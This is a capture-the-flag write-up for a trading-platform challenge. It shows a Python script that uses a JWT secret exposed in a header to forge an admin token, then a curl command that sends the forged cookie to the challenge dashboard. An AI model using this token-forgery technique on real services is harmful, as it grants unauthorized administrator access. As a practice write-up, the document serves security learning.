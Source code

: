 # URL
https://host5.metaproblems.com:7606/

# Concept
We were given a trading platform website where we had to login as admin to get the flag but we were only given user logins.

# Solve
On logging in as user, I inspected the cookies and noticing that we have a jwt token for the current user. I wrote a python script to
manipulate the user token into an admin token.
~~~
import jwt
import time

# The secret from the 'jwt' header
secret = "jwt_z3bXPravDcYhjy5mhYgYLbWRoAPkPyn"

# Create payload for 'admin'
payload = {
    "sub": "admin",
    "iat": int(time.time()),
    "exp": int(time.time()) + 7200  # 2 hours from now
}

# Sign the token
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
~~~
After I used curl to send the token
~~~
curl -k -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiIsImlhdCI6MTc2MTIyODA5NSwiZXhwIjoxNzYxMjM1Mjk1fQ.ZJUOMnUgQvYVZGB-X8ucKsq86Vf8U4KOTbCUPZ5QiTE" \
  https://host5.metaproblems.com:7606/dashboard
~~~
Another method was to replace the jwt token in the browser and get the flag.
